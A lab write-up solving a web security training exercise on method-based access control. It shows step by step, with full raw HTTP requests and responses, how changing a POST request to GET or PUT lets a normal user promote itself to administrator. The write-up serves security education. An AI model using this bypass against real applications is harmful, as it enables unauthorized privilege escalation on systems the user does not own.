

# Lab: Method-based access control can be circumvented

## Lab Description

This lab implements access controls based partly on the `HTTP method` of `requests`. You can familiarize yourself with the admin panel by logging in using the credentials `administrator:admin`.

To solve the lab, log in using the credentials `wiener:peter` and exploit the flawed access controls to **promote yourself to become an administrator**.

## Lab Solution

1. Log in using the admin credentials.
2. Browse to the admin panel, promote `carlos`, and send the HTTP request to Burp Repeater.



3. Logout as `administrator` and log in with user credentials `wiener:peter`. Capture the session cookie

4. Attempt to re-promote `carlos` with the non-admin user by copying that user's session cookie into the existing Burp Repeater request, and observe that the response says "Unauthorized".

5. Edit the `username` parameter to `wiener`

Now we have two options to try:
### Option 1 - Change to GET Method

6. Convert the request to use the `GET` method by right-clicking and selecting `"Change request method"`. Send request.

**HTTP Request**

```
GET /admin-roles?username=wiener&action=upgrade HTTP/2
Host: 0aff007c04cf317480b68f8400a300da.web-security-academy.net
Cookie: session=MyDSQ7JZxxn1ZMKRxcIfr2vatCwHEd1e
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="117", "Not;A=Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0aff007c04cf317480b68f8400a300da.web-security-academy.net/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aff007c04cf317480b68f8400a300da.web-security-academy.net/admin
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9

```
**HTTP Response**

```
HTTP/2 302 Found
Location: /admin
X-Frame-Options: SAMEORIGIN
Content-Length: 0

```

### Option 2 - Change to PUT Method

6. Exchange the `POST` to `PUT` and send request.

**HTTP Request**

```
PUT /admin-roles HTTP/2
Host: 0aa600a6037e113d801cfd8e00570031.web-security-academy.net
Cookie: session=MyDSQ7JZxxn1ZMKRxcIfr2vatCwHEd1e
Content-Length: 30
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="117", "Not;A=Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0aa600a6037e113d801cfd8e00570031.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aa600a6037e113d801cfd8e00570031.web-security-academy.net/admin
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9

username=wiener&action=upgrade
```

**HTTP Response**

```
HTTP/2 302 Found
Location: /admin
X-Frame-Options: SAMEORIGIN
Content-Length: 0

```
